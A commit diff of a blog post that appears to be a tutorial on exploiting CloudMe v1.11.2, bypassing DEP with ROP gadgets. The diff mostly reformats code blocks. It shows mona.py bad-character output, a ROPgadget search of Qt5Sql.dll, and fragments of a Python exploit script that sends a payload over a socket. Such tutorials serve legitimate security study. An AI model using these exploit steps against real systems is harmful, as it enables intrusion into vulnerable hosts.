

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 1400 px high, scrolled down 19482 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
CloudMe v1.11.2 DEP bypass using ROP gadgets

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -500,7 +500,9 @@
 
 <p align="justify">As we see above, we have already set the log file and we can also see the ascii hex characters generated from <b>mona.py</b>. Also, it is worth to mention that we don't need to include the '\x00' character in our character set, because it could cut off the rest of the characters, as it could be acting as a null terminator. Nevertheless, we can see if it is considered a bad character afterwards.</p>
 <p align="justify">Now, we can use the following command to compare the character set generated with <b>mona.py</b>, with the character set we have sent to the vulnerable <b>CloudMe</b> application.</p>
-<pre>0:000&gt; !py mona compare -f c:\logs\CloudMe\bytearray.bin -a 0x0022d910
+
+```
+0:000> !py mona compare -f c:\logs\CloudMe\bytearray.bin -a 0x0022d910
 Hold on...
 [+] Command used:
 !py C:\Program Files\Windows Kits\8.0\Debuggers\x86\mona.py compare -f c:\logs\CloudMe\bytearray.bin -a 0x0022d910
@@ -520,9 +522,14 @@
 0x0022d910 | Bytes omitted from input: 00
 
 [+] This mona.py action took 0:00:00.922000
-</pre>
+```
+
 <p align="justify">As we see above, we don't have bad characters, so we are good to go. But wait, not yet. Lets generate the badchars again, but at this time lets include the '\x00'. If we compare again the hex chars as we did before, we will see that the null byte considered to be a bad char as it is missing from the chars sent from the exploit.</p>
-<pre>0:000&gt; !py mona compare -f c:\logs\CloudMe\bytearray.bin -a 0x0022d910
+
+
+```
+
+0:000> !py mona compare -f c:\logs\CloudMe\bytearray.bin -a 0x0022d910
 Hold on...
 [+] Command used:
 !py C:\Program Files\Windows Kits\8.0\Debuggers\x86\mona.py compare -f c:\logs\CloudMe\bytearray.bin -a 0x0022d910
@@ -586,7 +593,8 @@
 0x0022d910 |
 
 [+] This mona.py action took 0:00:00.875000
-</pre>
+```
+
 <p align="justify">At this point we are good to go. We can construct any shellcode now just excluding the null character.</p>
 <hr />
 <h3>4. Stack Pivoting</h3>
@@ -596,19 +604,25 @@
 Hold on...
 [.....]</pre>
 <p align="justify">If we take a closer look at the modules info table generated from mona, we can see that there are some specific modules with no restrictions at all. Furthermore we have identified one of these modules with no restrictions which is the <b>Qt5Sql.dll</b>. We can use this specific .dll in order to search for gadgets that can help us in stack pivoting.</p>
-<pre>pentest@pentest-PC MINGW32 ~/Desktop/ROPgadget (master)
+
+```
+pentest@pentest-PC MINGW32 ~/Desktop/ROPgadget (master)
 $ python ROPgadget.py --binary "C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\Qt5Sql.dll" --only "ret" --depth 5 --badbytes "00"
 Gadgets information
 ============================================================
-<span style="color:#ff0000;">0x6d9c1011 : ret</span>
+0x6d9c1011 : ret
 0x6d9c35b1 : ret 0
 0x6d9cf7e4 : ret 0x10
 0x6d9d782a : ret 0x11b
 0x6d9d9c6a : ret 0x125
 [...]
-</pre>
+```
+
 <p align="justify">Using the <b>ROPgadget</b> tool ( clone from <a href="https://github.com/JonathanSalwan/ROPgadget">here </a>), we have chosen to search for gadgets from <b>Qt5Sql.dll</b>. The gadget we want to search is the <b>ret</b> instruction</p>
-<pre>import struct
+
+```python
+
+import struct
 import socket
 import sys<br />
 target = "127.0.0.1"
@@ -693,7 +707,9 @@
   s.send(payload)
 except Exception as e:
   print(sys.exc_value)
-</pre>
+```
+
+
 <p align="justify">The following address <b>0x6d9c1011</b> was selected with the only purpose of setting a breakpoint in order to calculate <b>ESP</b> relative offset once we hit it. At this point we use the first 2236 bytes to get to <b>SEH</b>.</p>
 <pre>0:000&gt; bp 0x6d9c1011
 *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\Qt5Sql.dll -
````
